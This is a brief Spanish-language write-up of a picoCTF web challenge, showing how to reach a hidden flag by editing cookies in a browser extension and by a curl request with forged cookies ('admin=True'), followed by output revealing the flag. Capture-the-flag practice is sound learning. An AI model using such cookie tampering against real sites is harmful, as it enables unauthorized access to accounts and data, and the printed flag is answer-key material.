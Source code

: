 ## Descripción
The factory is hiding things from all of its users. Can you login as Joe and find what they've been looking at? `https://jupiter.challenges.picoctf.org/problem/15796/` ([link](https://jupiter.challenges.picoctf.org/problem/15796/)) or http://jupiter.challenges.picoctf.org:15796
## Solución
### Solución 1
Usé la extensión cookie - editor para ver las cookies del admin, Cambié el valor a True y recargué la página

### Solución 2
```
┌──(anton㉿anton)-[~]
└─$ curl -X GET https://jupiter.challenges.picoctf.org/problem/15796/flag -H "Cookie: username=admin; password=admin; admin=True" | grep -s picoCTF
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--    100  1312  100  1312    0     0   2536      0 --:--:-- --:--:-- --:--:--  2537
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{th3_c0nsp1r4cy_l1v3s_6edb3f5f}</code></p>

┌──(anton㉿anton)-[~]
```
## Notas
## Referencias